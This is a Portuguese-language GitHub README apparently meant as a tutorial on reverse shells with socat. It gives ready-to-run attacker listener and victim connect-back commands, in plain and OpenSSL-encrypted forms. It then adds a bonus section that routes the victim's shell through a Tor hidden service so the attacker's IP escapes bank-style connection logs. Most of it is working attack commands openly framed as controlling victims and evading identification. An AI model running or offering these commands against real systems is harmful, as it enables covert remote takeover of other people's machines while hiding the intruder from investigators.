 <p align="center">
<img width="380px" src="https://s2.glbimg.com/gRGlct1eb_8PuB7FpXTpVJtiTVo=/0x0:695x362/984x0/smart/filters:strip_icc()/i.s3.glbimg.com/v1/AUTH_08fbf48bc0524877943fe86e43087e7a/internal_photos/bs/2017/k/m/Lbn0FrTXewbD71idSJ9Q/tor-browser.png" alt="Tor image" />
</p>

<H3 align="center"> Shell reverso interativo e criptografado e shel reverso usando a rede tor
<H3 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso, precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados através do terminal. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverse

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta. Assim permite que o atacante abra uma porta de escuta em seu servidor, e através dessa porta receberá conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Existem vários tipos de [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), mas falerei de um caso utilizando o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

a vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

Para obter um shell reverso criptografado:

Atacante:

```shell

# Servidor

PORT="1111"

openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"

socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```

Vítima:

```shell
# CLiente
HOST=localhost
PORT=80
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid
```

## Execução:

Basta dar permissão de execução:

```bash
chmod a+x client.sh e server.sh

# Atacante
./server.sh

#Vítima
./cliente.sh
```

## Bônus

### Shell reverso utilizando a rede tor

Em um sistema robustos, como bancos e etc, são guardados logs de conexões. Desta forma o endereço de ip da atacante seria facimente descoberto. Para tornar o endereço do atacante desconhecido, o atacante precisa ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa possuir um servidor na rede tor, para isso a o atacante precisa adicionar as seguintes linhas ao arquivo /etc/tor/torrc

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```

E reiniciar o tor:

```
systemctl restart tor
```

Para descobrir o host do atacante:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo desse tipo
dominio-do-atacante.onion
```

Então basta o atacante executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=dominio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor, mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Mas agora é extremamente difícil para vitima identificar o atacante.

Abaixo nas referências, alguns caras muito respeitados no assunto de cyber security:

## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).

